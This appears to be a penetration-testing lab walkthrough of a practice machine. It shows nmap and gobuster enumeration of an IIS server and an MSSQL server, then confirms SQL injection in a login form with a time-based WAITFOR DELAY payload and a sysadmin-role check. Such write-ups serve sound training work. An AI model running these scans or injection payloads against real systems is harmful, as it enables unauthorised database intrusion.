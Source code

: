 ***
## Enumeration
1. Enumerate running services using `nmap`
```
nmap -sV -sC -Pn 10.11.1.123
```

2. `nmap` was able to detect several running services, but for this machine, the area of interest is the **HTTP** server running on port **4167** and the **mssql** server running on port **1433**
``` 
4167/tcp  open  http      syn-ack Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
1433/tcp  open  ms-sql-s  syn-ack Microsoft SQL Server 2012 11.00.2100.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: DJ
|   NetBIOS_Domain_Name: DJ
|   NetBIOS_Computer_Name: DJ
|   DNS_Domain_Name: dj
|   DNS_Computer_Name: dj
|_  Product_Version: 6.3.9600
```

3. We performed a directory enumeration and discovered a page called `Login.asp` which shows a login page for a music inventory app.
```
gobuster dir -u http://10.11.1.128:4167/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 -o gobuster-4167.txt -x asp,aspx
```

![[dj-gobuster-login.png]]

![[dj-login-form.png]]

4. We checked the source code and finds out that the form submission is being handled by the endpoint `loginform.asp`
![[dj-login-source.png]]

5. We've tested the form using several inputs and noticed that the application responsed with an `Internal server error` when the input contains a `'` (single quote) character. This behavior indicates that it might be vulnerable to [`SQL Injection (SQLi)`](https://portswigger.net/web-security/sql-injection)
![[dj-internal-500.png]]

6. Since we are not getting any (descriptive) error message, we used time-based technique to confirm the SQLi vulnerability. Because of the injected query `WAITFOR DELAY '0:0:5'`, it took (around) **5000 milliseconds (or 5 seconds)** before we received the server response, thus, confirming that we can inject queries into the parameter.
![[dj-delay.png]]

> [!info] 
> [WAITFOR DELAY](https://learn.microsoft.com/en-us/sql/t-sql/language-elements/waitfor-transact-sql?redirectedfrom=MSDN&view=sql-server-ver16#b-using-waitfor-delay) is an SQL syntax specific for **MSSQL**. It suspends the execution of stored procedure for the specified amount of time.

```
IF (SELECT is_srvrolemember('sysadmin'))=1 WAITFOR+DELAY+'0:0:5'
```